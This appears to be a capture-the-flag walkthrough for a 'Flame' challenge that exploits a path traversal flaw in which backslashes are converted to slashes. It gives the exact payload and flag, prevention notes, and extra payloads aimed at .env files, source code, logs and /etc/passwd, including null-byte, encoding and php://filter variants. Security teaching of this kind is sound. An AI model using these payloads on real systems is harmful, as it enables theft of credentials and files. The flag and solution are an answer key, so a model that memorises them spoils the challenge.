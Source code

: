 # Flame Walkthrough

## Challenge Overview
**Difficulty**: Hard  
**Vulnerability**: Local File Inclusion (LFI)  
**Flag**: nhc{f1l3_p4th_tr4v3rs3d_w1th_fl4m3}

## Story Context
Hattori enters the Echo Chamber, where flames reveal paths to hidden chambers through careful traversal.

## Solution Steps

### Step 1: Access the Challenge
1. Navigate to `/challenge/flame`
2. Observe the sample echo link and chamber description

### Step 2: Understand the Vulnerability
The backend processes:
```python
path = f'uploads/{scroll}'.replace('\\', '/')
```

### Step 3: Test Basic LFI
1. Try the sample: `/challenge/flame/view?scroll=sample.txt`
2. Should display: "This is a sample relic from the vault."

### Step 4: Bypass Path Restrictions
1. Blocked: `/` (forward slash)
2. Allowed: `\` (backslash), which gets converted to `/`
3. Use `..` for directory traversal

### Step 5: Access Hidden Directory
1. Traverse to parent directory: `..\hidden\final_fragment.txt`
2. Full payload: `/challenge/flame/view?scroll=..\hidden\final_fragment.txt`
3. The backslashes become forward slashes, creating: `uploads/../hidden/final_fragment.txt`

### Step 6: Extract the Flag
The response should contain: `nhc{f1l3_p4th_tr4v3rs3d_w1th_fl4m3}`

## Hints

### Hint 1
> The chamber echoes files from the uploads directory. But what if you could reach beyond that?

### Hint 2
> The system blocks forward slashes but allows backslashes. How does it handle the conversion?

### Hint 3
> Directory traversal uses `..` to move up directories. Combine this with the path conversion for access.

## Educational Notes

### What You Learned
- **Local File Inclusion**: Including files from the server filesystem
- **Path Traversal**: Using `..` to access parent directories
- **Input Sanitization**: Bypassing filters through character conversion
- **Directory Structure**: Understanding web application file organization

### Real-World Impact
- Sensitive file disclosure
- Source code exposure
- Configuration file access
- Log file reading

### Prevention
- Input validation and sanitization
- Path canonicalization
- Whitelist allowed files
- Use indirect file access
- Proper permission controls

## Alternative Payloads

### Basic Traversal
```
..\hidden\final_fragment.txt
```

### Source Code Disclosure
```
..\..\..\app.py
```

### Configuration Access
```
..\..\..\.env
```

### Log File Reading
```
..\..\..\logs\access.log
```

## Testing Techniques

### Manual Testing
1. Start with known files
2. Test traversal step by step
3. Verify path conversion

### Python Simulation
```python
def test_lfi(scroll):
    path = f'uploads/{scroll}'.replace('\\', '/')
    print(f"Original: uploads/{scroll}")
    print(f"Converted: {path}")
    return path

# Test the payload
test_lfi('..\\hidden\\final_fragment.txt')
```

## Common Mistakes
- Using forward slashes instead of backslashes
- Wrong number of `..` for traversal
- Incorrect file path or name
- Not understanding the replace operation

## Path Conversion Logic

### Input Processing
```
Input: ..\hidden\final_fragment.txt
Replace \ with /: ../hidden/final_fragment.txt
Full path: uploads/../hidden/final_fragment.txt
Resolved: hidden/final_fragment.txt
```

### Security Bypass
- Filter blocks `/` but allows `\`
- Application converts `\` to `/`
- Results in valid path traversal

## Advanced Techniques

### Null Byte Injection
```
..\..\..\etc\passwd%00.jpg
```

### Encoding Bypass
```
..%2f..%2f..%2fetc%2fpasswd
```

### Wrapper Exploitation
```
php://filter/convert.base64-encode/resource=../../../etc/passwd
```

## Next Steps
Submit the flag to complete all challenges and access the finale.
